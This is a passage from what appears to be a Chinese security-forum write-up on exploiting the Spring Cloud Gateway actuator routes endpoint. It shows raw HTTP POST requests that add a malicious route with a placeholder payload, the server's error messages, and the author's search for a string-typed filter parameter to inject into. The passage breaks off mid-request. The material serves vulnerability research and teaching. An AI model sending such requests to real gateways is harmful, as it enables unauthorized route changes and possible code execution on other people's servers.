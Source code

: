可以看到确实只有连个参数 `status`和 `url`，修改我们的请求包。

```http
POST /actuator/gateway/routes/123456 HTTP/1.1
Host: 127.0.0.1:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 335

{
    "id": "first_route",
    "predicates": [],
    "filters": [{
        "name": "RedirectTo",
        "args": 
            {
                "status": "302",
                "url": "payload"
            }
    }],
    "uri": "https://www.uri-destination.org",
    "order": 0
}
```

![5.2.2.png](https://shs3.b.qianxin.com/attack_forum/2022/03/attach-6a8f5da9a6f59a25258cf4559c4d4cf2bfcf9396.png)

但是也没回显，后台返回了异常。不是上面空指针异常，说明验证了参数的限制。

> java.lang.IllegalArgumentException: Illegal character in path at index 5: xxxx  
> at java.net.URI.create

通过看异常信息，说明 spring-cloud-gateway 是对 url 格式进行解析了。

也就是说相应的参数都有类型限制，比如 status 必须是 HTTP 状态码（枚举类型）。

我们需要另求突破点，找一个参数是 String 类型。

#### 2. 挖掘思路

从官网上找 Filter 必须给出了具体参数，且类型是字符串类型的参数 。

按照这个思路随手找了个合法 `RemoveRequestHeader`过滤器，发现只有一个 `name`参数。  
<https://docs.spring.io/spring-cloud-gateway/docs/current/reference/html/#the-removerequestheader-gatewayfilter-factory>

> The RemoveResponseHeader GatewayFilter factory takes a **name** parameter. It is the name of the header to be removed.

```http
POST /actuator/gateway/routes/123456 HTTP/1.1
Host: 127.0.0.1:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 335

{
    "id": "first_route",
    "predicates": [],
```